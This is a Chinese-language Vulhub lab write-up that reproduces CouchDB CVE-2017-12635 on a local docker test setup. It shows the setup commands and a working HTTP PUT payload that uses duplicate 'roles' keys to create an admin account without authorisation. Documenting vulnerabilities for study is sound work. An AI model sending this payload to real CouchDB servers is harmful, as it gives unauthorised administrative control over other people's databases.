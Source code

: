 # Couchdb 垂直权限绕过漏洞 CVE-2017-12635

## 漏洞描述

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

参考链接：

- http://bobao.360.cn/learning/detail/4716.html
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 漏洞影响

```
Couchdb 小于 1.7.0 以及 小于 2.1.1
```

## 环境搭建

Vulhub编译及启动环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

## 漏洞复现

访问`http://your-ip:5984/_users/org.couchdb.user:vulhub`，如果出现404错误：`{"error":"not_found","reason":"Database does not exist."}`，则说明当前Couchdb的初始化未完成，数据库不存在，需要手动进行配置。

Vulhub目录下存在init.sh文件：

```
┌──(root💀kali)-[/home/…/vulnerability/vulhub/couchdb/CVE-2017-12635]
└─# cat init.sh
#!/bin/bash

COUCHDB_URL=${COUCHDB_URL:-"couchdb:5984"}
COUCHDB_AUTH=${COUCHDB_AUTH:-"admin:password"}

while ! curl -m 5 "${COUCHDB_URL}"; do
    sleep 1
done

curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_users
curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_replicator
curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_global_changes
```

依次执行命令，初始化Couchdb，新建`_users`、`_replicator`、`_glocal_changes`三个数据库：

```
curl -X PUT http://admin:password@192.168.174.128:5984/_users 
curl -X PUT http://admin:password@192.168.174.128:5984/_replicator
curl -X PUT http://admin:password@192.168.174.128:5984/_global_changes
```

![image-20220222100506110](./images/202202221005221.png)

配置完成后，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

![image-20220222100650526](./images/202202221006605.png)

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色

发送包含两个roles的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

成功创建管理员，账户密码均为`vulhub`：

![image-20220222100732534](./images/202202221007617.png)

再次访问`http://your-ip:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![image-20220222100904867](./images/202202221009954.png)

